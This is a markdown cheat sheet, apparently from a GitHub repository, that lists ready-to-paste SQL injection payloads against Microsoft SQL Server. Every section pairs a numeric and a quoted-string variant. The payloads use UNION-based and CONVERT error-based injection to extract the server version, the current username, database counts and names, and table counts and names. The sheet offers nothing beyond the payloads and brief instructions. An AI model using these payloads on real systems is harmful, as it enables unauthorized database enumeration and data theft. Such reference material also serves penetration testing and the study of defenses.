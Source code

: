## MSSQL SQLi Guide

### Get server version

*Assuming there’s one column:*

```
1 UNION SELECT @@version--
```

```
1' UNION SELECT @@version--
```

```
1 AND 1=CONVERT(INT,serverproperty('productversion'))--
```

```
1' AND 1=CONVERT(INT,serverproperty('productversion'))--
```

***

### Get current username

*Assuming there’s one column:*

```
1 UNION SELECT user_name()--
```

```
1' UNION SELECT user_name()--
```

***

### Get number of databases

```
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58)))--
```

```
1' AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT([name]) AS nvarchar(4000)) FROM [master]..[sysdatabases] )+CHAR(58)+CHAR(58)))--
```

***

### Get database names

*replace N with a number starting from 1*


```
1 AND 1=CONVERT(INT,db_name(N))--
```

```
1' AND 1=CONVERT(INT,db_name(N))--
```

***

### Get number of tables

```
1 AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58)))--
```

```
1' AND 1=CONVERT(INT,(CHAR(58)+CHAR(58)+(SELECT top 1 CAST(COUNT(*) AS nvarchar(4000)) FROM information_schema.TABLES )+CHAR(58)+CHAR(58)))--
```

### Get Table name

*replace N with a number starting from 1*

```
1 AND 1= CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top N TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58)))--
```

```
1' AND 1= CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 TABLE_NAME FROM (SELECT DISTINCT top N TABLE_NAME FROM information_schema.TABLES ORDER BY TABLE_NAME ASC) sq ORDER BY TABLE_NAME DESC)+CHAR(58)))--
```

